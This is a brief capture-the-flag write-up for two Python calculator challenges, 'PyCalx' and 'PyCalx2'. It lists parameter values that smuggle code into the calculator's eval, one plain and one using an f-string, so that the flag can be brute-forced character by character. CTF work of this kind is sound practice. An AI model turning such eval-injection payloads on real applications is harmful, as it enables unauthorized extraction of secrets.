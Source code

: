 <h1>PyCalx</h1>
Bruteforce the <b><i>source</i></b> param.
value1=True
op=+'
value2= if source in FLAG else None#
source=MeePwn....

<h1>PyCalx2</h1>
With Internet connection I found this: https://cito.github.io/blog/f-strings/
Then the payload have some changes and I still do bruteforce:
value1=True
op=+f
value2={101 if source in FLAG else 102:c}
source=MeePwn....
